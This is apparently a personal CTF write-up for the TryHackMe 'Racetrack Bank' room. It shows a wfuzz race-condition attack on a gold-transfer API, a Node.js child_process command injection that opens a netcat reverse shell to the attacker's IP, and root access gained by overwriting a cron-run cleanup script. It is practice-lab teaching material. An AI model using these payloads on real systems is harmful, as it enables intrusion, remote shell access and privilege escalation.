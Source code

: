 ```yaml
---
layout: post
title: Racetrack Bank | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-14 05:00:53 +0000'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```

- [Racetrack Bank](#racetrack-bank)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse shell](#reverse-shell)
- [Flags](#flags)

<!-- toc -->


### Racetrack Bank
Hallå gubbar, this one is a lil bit difficult but hey we can do it specially if you want to learn more and practice on race condition vulnerabilities ... check the box  Racetrack Bank

### Enumeration


After we scan using Nmap we found 80 port open = http

```sh
http:/ip-box:80
```




then it will redirect you to the login page
we found other 2 pages 
give gold ( to send gold to other users) / purchase (buy premium ) 





We also have 1 gold ....

Nothing else so what we need to do is find out the premium features but how is that ?

Drom the description and title of the box is possible to say that there's race conditions vulnerabilities 

so let fuzz it!!

### Exploitation

How ?
we need to fuzz and send multi requests to transfer gold from an account to an other 
Result:
Farming gold 

What we need ?

1. Creating accounts
2. Cookies id tag
3. Loop requests
4. Buy premium


i will try to make it easy for you 

1. create account ( test22 ) also create an other account in private tab (test99)

we need to intercept the gold transfer request using BURPYYY...


2. Now we got cookie id tag (request)

3. Loop requests in this case we will use wfuzz 

but first create txt file and each line should have number 1 ( 1 gold remember ) and you should have 20 000 line 

" Dont worry i said i will make it easy for you "

https://pastebin.com/MxnwWnWG

 command :
 
```sh
wfuzz -w /root/Desktop/gold.txt -u http://Box-ip/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "Cookie ID" -d "user=test99&amount=FUZZ"
```


| Options      | Meaning       |
| ------------- |:-------------:|
|-w| wordlist|
|-u| url|
|-H |header|
|-b |cookie|
|-d |postdata |

So don't waste too much time going back from an account t oan other 

just once you reach 600 gold change 1 gold to 6 gold in text file 

also send gold from account test22 to test99 

also send back 600 from test99 without fuzzing it 

then go back to test22 and fuzz it again 

4. so in 3 steps you will have more 10k gold enough to buy premium !



### Reverse shell

To be frank i tried many injections command but nothing worked until checked source code (node.js)

so just google node.js reverse shell


```sh
http://Ip-box/premuimfeatures.html?ans=require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP PORT >/tmp/f')
```

voila!




### Flags

we got the user flag :
```sh
~$ cat  user.txt
```
Now we need to privesc to root but i'm lazy specially late nights so just searched for backup files and we find 
```sh/cleanup/```file called ```cleanupscript.sh``` that runs every minute.

So we can optin to get second reverse shell as root or copy and output root flag
 
so you either 
```sh 
rm cleanupscript.sh
```  
or
```sh
mv cleanupscript.sh > cleanupscript.sh.backup ( check dogcat room similar)
```

then
```sh
echo 'cat /root/root.txt > /home/brian/root_flag.txt' > cleanupscript.sh
```
```sh
chmod 777 cleanupscript.sh
```

Run it and wait 1 min then check for for output


See you next time ......

